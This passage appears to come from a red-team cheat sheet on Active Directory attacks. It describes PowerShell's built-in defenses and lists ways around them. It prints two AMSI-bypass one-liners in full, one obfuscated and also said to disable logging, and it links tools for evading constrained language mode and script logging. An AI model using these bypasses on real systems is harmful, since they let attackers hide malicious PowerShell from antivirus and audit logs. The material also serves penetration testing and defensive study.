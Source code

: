 Some alternatives to this method to achieve the same are msf msbrelay module, impacket's smbrelayx or responder's multirelay but they are **NOT OPSEC SAFE**.  

## Red Team AD Attacks

Focused on **OPSEC SAFE** attack tactics and techniques.  

### Poweshell defenses in AD

Powershell has been abused over the last years. This is why in Powershell v5 onwards some security enhancements were introduced.  

  1. Script block logging --> Deobfuscates powershell and creates eventlog with ID 4104.  
  2. System-wide transcript file --> if enabled, a share on the network will keep everything typed in powershell inside the transcript file.  
  3. Constrained language mode --> Disables .NET, COM and Win32 API Calls when enforced. Powershell and [AppLocker](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd723678(v=ws.10)) will automatically lock down powershell. The same with Device Guard with [UMCI](https://docs.microsoft.com/en-gb/windows/security/threat-protection/device-guard/introduction-to-device-guard-virtualization-based-security-and-windows-defender-application-control) deployed.  
  4. AMSI (Anti-Malware Scan Interface) --> Decodes powershell before executing, detects in-memory attacks.  

### Bypassing Powershell defenses.  

#### AMSI bypasses:  

  - ```[Ref].Assembly.GetType('http://System.Management .Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)``` --> Busted, no longer works.  
  - ```[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType('System.Reflection.Bindin'+'gFlags')).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.T'+'ype')), [Object]([Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')),('GetFie'+'ld')).Invoke('amsiInitFailed',(('Non'+'Public,Static') -as [String].Assembly.GetType('System.Reflection.Bindin'+'gFlags'))).SetValue($null,$True)``` --> AMSI bypass and disables WMF5 autologging. 
  - [DLL Hijacking AMSI Bypass](http://cn33liz.blogspot.com/2016/05/bypassing-amsi-using-powershell-5-dll.html)  
  - [Bypassing AMSI via COM Server Hijacking](https://enigma0x3.net/2017/07/19/bypassing-amsi-via-com-server-hijacking/)  
  - Unmanaged powershell (Rolled into metasploit) --> Executes PS commands without calling powershell.exe  
  - [PSAmsi](https://github.com/cobbr/PSAmsi) --> Audit and defeat AMSI Signatures.  
  - [Invoke-AMSIBypass.ps1](https://github.com/samratashok/nishang/blob/master/Bypass/Invoke-AmsiBypass.ps1) --> Various AMSI bypasses in one place.  

#### Constrained Language Mode and Powershell Logging Bypasses

  - [PSAttack](https://github.com/jaredhaight/psattack) --> Single executrable wich contains some of the most popular Powershell attack tools. Encrypted in the file and decrypted/run from memory. Bypasses Constrained Language Mode and Powershell Logging.  
  - [PowerPick](https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerPick) --> Execution of Powershell functionality without the use of Powershell.exe.  
  - [Babushka Dolls](https://improsec.com/blog/babushka-dolls-or-how-to-bypass-application-whitelisting-and-constrained-powershell) --> Bypass app whitelisting, constrained language mode, etc.  
  - [Powershell Code Injection](http://www.exploit-monday.com/2017/08/exploiting-powershell-code-injection.html)  --> Find signed and vulnerable PowerShell modules and exploit them.  
